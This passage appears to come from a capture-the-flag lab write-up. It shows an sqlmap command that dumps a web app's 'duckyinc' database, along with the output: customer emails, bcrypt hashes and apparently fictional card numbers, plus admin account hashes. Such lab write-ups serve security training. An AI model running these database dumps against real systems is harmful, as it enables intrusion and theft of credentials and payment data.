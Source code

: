 We found the name of the database: `duckyinc`. By running the following command, we dump the data from this database:

~~~
└─$ sqlmap -u http://$IP//products/1 -D duckyinc --dump-all --batch

[REDACTED]

Database: duckyinc
Table: user
[10 entries]
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
| id | email                           | company          | username | _password                                                    | credit_card                |
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
| 1  | sales@fakeinc.org               | Fake Inc         | jhenry   | $2a$12$dAV7fq4KIUyUEOALi8P2dOuXRj5ptOoeRtYLHS85vd/SBDv.tYXOa | 4338736490565706           |
| 2  | accountspayable@ecorp.org       | Evil Corp        | smonroe  | $2a$12$6KhFSANS9cF6riOw5C66nerchvkU9AHLVk7I8fKmBkh6P/rPGmanm | 355219744086163            |
| 3  | accounts.payable@mcdoonalds.org | McDoonalds Inc   | dross    | $2a$12$9VmMpa8FufYHT1KNvjB1HuQm9LF8EX.KkDwh9VRDb5hMk3eXNRC4C | 349789518019219            |
| 4  | sales@ABC.com                   | ABC Corp         | ngross   | $2a$12$LMWOgC37PCtG7BrcbZpddOGquZPyrRBo5XjQUIVVAlIKFHMysV9EO | 4499108649937274           |
| 5  | sales@threebelow.com            | Three Below      | jlawlor  | $2a$12$hEg5iGFZSsec643AOjV5zellkzprMQxgdh1grCW3SMG9qV9CKzyRu | 4563593127115348           |
| 6  | ap@krasco.org                   | Krasco Org       | mandrews | $2a$12$reNFrUWe4taGXZNdHAhRme6UR2uX..t/XCR6UnzTK6sh1UhREd1rC | thm{br3ak1ng_4nd_3nt3r1ng} |
| 7  | payable@wallyworld.com          | Wally World Corp | dgorman  | $2a$12$8IlMgC9UoN0mUmdrS3b3KO0gLexfZ1WvA86San/YRODIbC8UGinNm | 4905698211632780           |
| 8  | payables@orlando.gov            | Orlando City     | mbutts   | $2a$12$dmdKBc/0yxD9h81ziGHW4e5cYhsAiU4nCADuN0tCE8PaEv51oHWbS | 4690248976187759           |
| 9  | sales@dollatwee.com             | Dolla Twee       | hmontana | $2a$12$q6Ba.wuGpch1SnZvEJ1JDethQaMwUyTHkR0pNtyTW6anur.3.0cem | 375019041714434            |
| 10 | sales@ofamdollar                | O!  Fam Dollar   | csmith   | $2a$12$gxC7HlIWxMKTLGexTq8cn.nNnUaYKUpI91QaqQ/E29vtwlwyvXe36 | 364774395134471            |
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+

[REDACTED]

Database: duckyinc
Table: system_user
[3 entries]
+----+----------------------+--------------+--------------------------------------------------------------+
| id | email                | username     | _password                                                    |
+----+----------------------+--------------+--------------------------------------------------------------+
| 1  | sadmin@duckyinc.org  | server-admin | $2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a |
| 2  | kmotley@duckyinc.org | kmotley      | $2a$12$LEENY/LWOfyxyCBUlfX8Mu8viV9mGUse97L8x.4L66e9xwzzHfsQa |
| 3  | dhughes@duckyinc.org | dhughes      | $2a$12$22xS/uDxuIsPqrRcxtVmi.GR2/xh0xITGdHuubRF4Iilg5ENAFlcK |
+----+----------------------+--------------+--------------------------------------------------------------+
~~~
